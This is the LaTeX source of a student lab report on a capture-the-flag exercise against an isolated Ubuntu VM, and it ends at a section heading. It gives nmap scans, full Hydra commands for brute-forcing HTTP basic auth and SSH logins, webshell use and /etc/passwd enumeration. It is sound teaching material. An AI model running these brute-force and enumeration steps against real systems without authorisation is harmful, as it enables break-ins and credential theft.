\documentclass[a4paper]{article}
\usepackage{caption}
\usepackage{graphicx}
\usepackage[hidelinks]{hyperref}
\usepackage[dvipsnames]{xcolor}
\usepackage{url}
\usepackage{outlines}
\usepackage{listings}
\usepackage{fontspec}
\lstset{basicstyle=\ttfamily,
	showstringspaces=false,
	commentstyle=\color{blue},
	keywordstyle=\color{RubineRed}
}
\lstset{emph={
	EXPOSE,RUN,FROM,CMD,nc,tcp,udp,docker},emphstyle=\color{purple}
}
\newcommand{\abc}{\hfill \break}
\captionsetup{hypcap=true}
\usepackage{fancyhdr}
\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	left=20mm,
	top=20mm,
	bottom=39mm,
}

\setlength{\headheight}{82.70538pt}

\fancypagestyle{oida}{
	\fancyhf{}
	\fancyhead[L]{\fontsize{7.5}{7.5}htl donaustadt\\ Donaustadtstraße 45\\
		1220 Wien\\~\\ Abteilung: Informationstechnologie\\ 
	Schwerpunkt: Netzwerktechnik}
	\fancyhead[R]{
\includegraphics[scale=0.45]{images/logo.png}}

	\fancyfoot[L]{\today}
	\fancyfoot[C]{\jobname}
	\fancyfoot[R]{Page: \thepage}
}

\begin{document}
\bibliographystyle{IEEEtran}
\pagestyle{oida}
\section*{Ethical hacking of a CTF-VM}
\par\noindent\rule{\textwidth}{0.4pt}

Laboratory protocol
Exercise 7: Ethical hacking of a CTF-VM

\begin{figure}[h]
	
\includegraphics[scale=0.5]{images/menheraMagnifier.png}
	\centering
	\caption{Grouplogo}
\end{figure}

\vspace*{\fill}
Subject:	ITSI

Class:	3AHITN

Name:	Stefan Fürst, Justin Tremurici

Groupname/number todo/12

Supervisor: 	SPAC, ZIVK

Exercise dates: 17-19.1.2025

Submission date: 20.1.2025


\newpage
\tableofcontents

\newpage

\section{Task definition}

This task is based on a Capture the Flag (CTF) challenge, where multiple flags are hidden across an environment and can be found either through exploits or by navigating the system. Two virtual machines are provided: an Ubuntu server, which hosts the flags, and a Kali Linux machine for offensive actions. Both machines operate in a \texttt{Host-only network}, meaning they can communicate with each other but not with the external internet or other devices.\abc
The goal is to use the tools and techniques available in Kali Linux to explore the Ubuntu server, identify vulnerabilities, and capture the flags, all within an isolated network environment.


\section{Summary}
In this exercise, we had to break into a Linux server VM and find six hidden flags. To gain access, we first scanned the network with \texttt{nmap} and discovered four web servers. One of these required brute-forcing to retrieve the first flag, which then allowed us to gain a web shell to the system. Using the web shell, we brute-forced the password for the current user to SSH into the machine. Once logged in, we explored the system to find flags.\abc
We discovered a flag in the comments of the server's \texttt{python} file, which we found by inspecting the running processes. The file was intended to run as a process, and this led us to locate it. Additionally, we found flags in the history of another user who had permission to view \texttt{secret\_flag.txt} in the \texttt{/opt} directory, as well as one flag in the \texttt{/tmp} directory. There are actually seven flags in total, with one located in the home directory of \texttt{/root}.\abc
We attempted to gain root access using the \texttt{Linux Smart Enumeration} tool and by analyzing the results for potential privilege escalation vectors, such as \texttt{SUID} binaries or binaries we could run with \texttt{sudo} to escalate to a shell. We also tried using a \texttt{getshell} from \texttt{meterpreter} to gain access, but none of these methods worked. As a result, we edited the boot configurations in the VM itself to get a shell and then changed the root password. This allowed us to execute the CTF setup script and view the final flag in the root's home directory.\footnote{The task definition and summary were generated using ChatGPT from the original bullet points.}
\newpage

\section{Complete network topology of the exercise}
\begin{figure}[h]
	
\includegraphics[scale=0.4]{./images/nwipsfr.png}
	\centering
	\caption{Complete network topology of the exercise}
\end{figure}\abc

\newpage

\section{Exercise Execution}
\subsection{Setting up the virtual machines.}
To get started with this CTF, make sure that VirtualBox version 7.1.4 is used. The VM to attack must be imported by double-clicking the provided \texttt{.ova} file. After the import is complete, the network settings must be changed to use Host-only Adapter mode. Since using the default Host-only network did not work, we had to create a new Host-only network. To do this, either press \texttt{<C-h>} or click on \texttt{File} > \texttt{Tools} > \texttt{Network Manager}, as shown in Figure 3.
\begin{figure}[h]
	
\includegraphics[scale=0.285]{./images/openingNetworkManager.png}
	\centering
	\caption{Opening VirtualBox Network Manager settings}
\end{figure}\abc
In this menu, click on \texttt{Create}, then check the \texttt{Enable Server} box to enable the DHCP server so the target VM will receive an IP address. Then, click on \texttt{Adapter} to view the IP range of the network, which in our case is \texttt{192.168.15.0/24}, which can be seen in Figure 4.
\begin{figure}[h]
	
\includegraphics[scale=0.4]{./images/nwipsfr.png}
	\centering
	\caption{Showing the IP settings for the new Host-only network}
	\label{fig:nwconf}
\end{figure}\abc
Next, open the virtual machine settings by selecting the VM in the list and pressing \texttt{<C-s>}. Under the \texttt{Network} section, change the network adapter to use the Host-only Adapter and select the VirtualBox Host-only Ethernet Adapter \#2, which was just created. Perform this step for both the target VM and the Kali VM, as detailed in Figure 5.
\newpage
\begin{figure}[ht]
	
\includegraphics[scale=0.4]{./images/vmnwconf.png}
	\centering
	\caption{Showing the network configuration of the virtual machines}
\end{figure}\abc
\newpage
\subsection{Reconnaissance: Scanning the Network}
We use the Cyber Kill Chain to structure our steps for completing the CTF, with any attack beginning with reconnaissance, which in this case means scanning the network with \texttt{nmap}. Since we don't know the IP address of the target server yet, we need to scan the network to find it. For this, the command \texttt{nmap 192.168.15.0/24} is used to scan the entire network for open ports, as illustrated in Figure 6.\cite{cyberkillchain}
\begin{figure}[ht]
	
\includegraphics[scale=0.4]{images/firstnmapscan.png}
	\centering
	\caption{Results of the nmap scan}
\end{figure}\abc
We can determine that the target has the IP address \texttt{192.168.15.3}, since, as seen in \textcolor{blue}{\hyperref[fig:nwconf]{Figure \ref{fig:nwconf}}}, \texttt{.1} is the network address, \texttt{.2} is the \texttt{DHCP} server, and \texttt{.4} is the IP address of the Kali VM. This can be verified by running \texttt{ip a} or by scanning the open ports, since \texttt{ssh} is not exposed.
Now we can run another \texttt{nmap} scan to get fruther information abt the running servives and their version by using the \texttt{sV} flag and use the \texttt{T4} flag which sets the timing to agressive with the value 4 and the \texttt{p} falg with \texttt{-} value to scan all ports. The results of the scan can be seen in Figure 7.\cite{nmap-sv,nmap-t-flag}
\begin{figure}[h]
	
\includegraphics[scale=0.4]{images/nmapfr.png}
	\centering
	\caption{Results of the detailed nmap scan}
\end{figure}\abc
From this scan, we can see that \texttt{ssh} and four \texttt{http} servers running \texttt{Python 3.12.3} are active on the system.
\subsection{Reconnaissance: Exploring the websites}
If we open the websites in our web browser of choice, we can see that the one on port \texttt{1080} says that to get further, we need to scan deeper, which we already did. The website on port \texttt{5155} shows text from foreign languages, which is randomized and always prints out different text on refresh. The site on port \texttt{10458} prints out a message in \texttt{base64}, and lastly, the one on port \texttt{10448} has a basic authentication login prompt for a mini web shell. Figures 8 shows the content of each webpage.
\newpage
\begin{figure}[h]
	
\includegraphics[scale=0.25]{images/allesiten.png}
	\centering
	\caption[Showing the contents of each page using curl]{Showing the contents of each page using \texttt{curl} \footnotemark}
\end{figure}\abc
\footnotetext{The ports are different from those mentioned before, since instead of using screenshots from the browser, we opted to use \texttt{curl}. Additionally, on every refresh, the ports are randomized.}
The \texttt{base64} message can be decoded by piping the string, using \texttt{echo}, into the \texttt{base64} command, which gives us the hint to use port \texttt{55487}, the site with authentication. This is shown in Figure 9 below.
\begin{figure}[h]
	
\includegraphics[scale=0.4]{images/base64.png}
	\centering
	\caption{Decoding the \texttt{base64} message}
\end{figure}\abc
To get all the random variants from the site with the foreign languages, I wrote a quick batch script to recursively relay the website and save the output in a file called \texttt{output}, as shown in Figure 10.
\begin{lstlisting}[language=bash]
#!/bin/bash
while true;do
    body=$(curl -s 192.168.15:5155)
    echo "$body" >> output
    echo "$body"
done
\end{lstlisting}
\begin{figure}[h]
	
\includegraphics[scale=0.4]{images/gettextsh.png}
	\centering
	\caption{Running the script}
\end{figure}\abc
After running it for a while, we prompted ChatGPT with the list of outputs to translate, which revealed the following hint, as shown in Figure 11.
\begin{figure}[ht]
	
\includegraphics[scale=0.4]{images/labngs.png}
	\centering
	\caption{ChatGPT translating the hint}
\end{figure}\abc
\subsection{Weaponization: Evaluating the needed tools}
Now that we know the username and that it uses HTTP Basic Authentication, we can use Hydra to brute-force the password. For this, I have chosen the 10-million-password list as our wordlist \cite{pw-list}
\subsection{Exploitation: Using Hydra to break HTTP basic authentication}
To brute force the password, the following \texttt{hydra} command will be used: \texttt{hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /}
Here is a breakdown of the options used in the command:\cite{hydra-http-basic-auth}
\begin{lstlisting}[language=bash]
-l user #specifying the username to attempt logging in with
-P pw.txt #tells Hydra to use the contents of pw.txt as passwords to try
-s 55487 #specifying the port to connect to
-f #telling Hydra to stop after a valid login
192.168.15.3 #setting the target IP address
http-get / #specifying the service and method to use
\end{lstlisting}
After running this command, we find out that the username is \texttt{user} and the password is \texttt{pass}, as seen in Figure 12.
\begin{figure}[h]
	
\includegraphics[scale=0.5]{images/hydra.png}
	\centering
	\caption{Running the Hydra command to get the credentials}
\end{figure}\abc
\newpage
After entering the found credentials on the webpage, we get the first flag.
\begin{figure}[h]
	
\includegraphics[scale=0.3]{images/flag1.png}
	\centering
	\caption{First flag found}
\end{figure}\abc
Besides the flag, there is a webshell on the site, so we can run commands on the server. However, interacting through the website is a horrible experience, and that's why we used the command \texttt{whoami} to find out which user we are logged in as so we can SSH into the server instead.
\subsection{Exploitation: Using Hydra to brute force SSH login}
To brute force the SSH login, this Hydra command is used: \abc\texttt{hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4}. The only changes made to the command are the username we got through the webshell, replacing the method with SSH, and using the \texttt{-t} flag with a value of 4 to set the max tasks to 4, since some SSH configurations tend to block higher counts. Figure 14 shows the command output. \cite{hydra-ssh}
\begin{figure}[h]
	
\includegraphics[scale=0.5]{images/hydrassh.png}
	\centering
	\caption{Getting the credentials for the user GrumpyCat}
\end{figure}\abc
\newpage
\subsection{Exploring the system}
\subsubsection{Listing all the files}
Now that we have a shell in the server, it's time to dig around and explore. We started by running \abc \texttt{ls -R / * 2>/dev/null | grep flag}, in which the \texttt{-R} flag is used to recursively list all the files in the root of the file system and the \texttt{*} is used to list everything inside that as well. Lastly, the \texttt{2>/dev/null} redirects \texttt{stderr} to the file \texttt{/dev/null} to effectively delete them from the output, which is piped into \texttt{grep} to filter it to search for files that have \texttt{flag} in their name. To tidy up the output, it can be piped into \texttt{grep} again with the \texttt{-v} flag to exclude results that contain \texttt{flags}. Figure 15 shows the results. \cite{stderr}
\begin{figure}[h]
	
\includegraphics[scale=0.5]{images/searchingfor falgfiles.png}
	\centering
	\caption{Output of the search command}
\end{figure}\abc
As we can see, we found a file called \texttt{secret\_flag.txt} and \texttt{flag\_process.sh}, for which we can search with the following command: \texttt{find -name "filename" / 2>/dev/null}. Figure 16 displays the found file locations.
\begin{figure}[h]
	
\includegraphics[scale=0.55]{images/findfiles.png}
	\centering
	\caption{File locations of the 2 found files}
\end{figure}\abc
To have a better structure in this documentation, I will list the initial findings from the exploration and create a section for each flag. This will make the document easier to read and more organized.
\subsubsection{Investigating the listening service}
With \texttt{ss -tulnp}, we can examine all listening process services on the system for TCP and UDP, along with the processes they use, if we have permission to see that. This will be further investigated in section 4.9.
\begin{figure}[h]
	
\includegraphics[scale=0.35]{images/sstunlp.png}
	\centering
	\caption{Viewing the listening services}
	\label{fig:sstunlp}
\end{figure}\abc
\newpage
\subsection{Investigating the process flag}
Let's return to the file \texttt{flag\_process.sh} to get this flag. Simply cat the file as shown in Figure 18.
\begin{figure}[ht]
	
\includegraphics[scale=0.55]{images/processflag.png}
	\centering
	\caption{Viewing the check\_running\_processes flag}
\end{figure}\abc
But let's not call it a day here since there is a different way to find this flag, which is by viewing the currently running processes with \texttt{ps aux}. However, since it only runs for 600 seconds, I wasn't able to find it running even immediately after restarting the VM. My theory is that it never gets started since the \texttt{setup\_flag\_process()} never actually starts the file or puts it in crontab.

\subsection{Further investigating the webserver}
Luckily, as seen in \textcolor{blue}{\hyperref[fig:sstunlp]{Figure \ref{fig:sstunlp}}}, it appears that the webserver has been started as the current user, which we can further inspect with \texttt{ps aux | grep python}. As shown in Figure 19, the process has been started by the root user as GrumpyCat.

\begin{figure}[ht]
	
\includegraphics[scale=0.25]{images/psauxpy.png}
	\centering
	\caption{Inspecting the running Python processes}
\end{figure}\abc
If we read the file \texttt{/bin/ctf\_server.py}, we first see that the ranges of the randomized port ranges are \texttt{4000-5600}, \texttt{10000-12000}, and \texttt{50000-60000}. The intended translation is "Hinweis1: Der Nutzername lautet user", and lastly, a flag hides itself at the bottom of the file, which is shown in Figure 20.
\begin{figure}[h]
	
\includegraphics[scale=0.35]{images/commentflag.png}
	\centering
	\caption{Viewing the flag in the server Python file}
\end{figure}\abc
\newpage
\subsection{Investigating secret\_flag.txt}
If we simply cat this file as the current user, we can't do that since we lack permission and are not in the sudoers group or file. Therefore, we have two options: either find a different user who has the privileges to read the file or escalate our current privileges to become root. The first option is the more reasonable one, which we will use.
To see all the users we can log into, we can search through the file using the following grep command: \texttt{grep -v "nologin" /etc/passwd}. With this command, we display all the lines of the \texttt{/etc/passwd} file that don't contain \texttt{nologin} to only display the users we can log in as.
\begin{figure}[ht]
	
\includegraphics[scale=0.45]{images/usr.png}
	\centering
	\caption{Listing the users we can log in as}
\end{figure}\abc
As seen in Figure 21, we got two new options as users to log in: \texttt{ubuntu} and \texttt{CheerfulOtter}. Since we had already tried brute-forcing the root password from the very start, just in case, and the user users have not set an interactive login shell, we chose \texttt{CheerfulOtter} because the name sounds more similar to \texttt{GrumpyCat}. We also brute-forced the \texttt{ubuntu} user in the background. This was a correct assumption, as the password for the \texttt{CheerfulOtter} user was also "password", and we didn't find the password for the \texttt{ubuntu} user, which also had its sudo permissions removed in the \texttt{remove\_ubuntu\_from\_sudo()} function in the setup script.
\begin{figure}[h]
	
\includegraphics[scale=0.45]{images/cheerfulotpw.png}
	\centering
	\caption{Getting the credentials for CheerfulOtter}
\end{figure}\abc
As seen in Figure 22, we got the credentials for the CheerfulOtter user. If we log in as that user and run \texttt{sudo -l} to see what permissions we have with sudo, we can see that the only command we can run elevated is \texttt{/bin/cat /opt/secret\_flag.txt}, which we need in order to find the flag, as shown in Figure 23.
\begin{figure}[h]
	
\includegraphics[scale=0.45]{images/sh.png}
	\centering
	\caption{Viewing secret\_flag.txt}
\end{figure}\abc
\subsection{Exploring the new user}
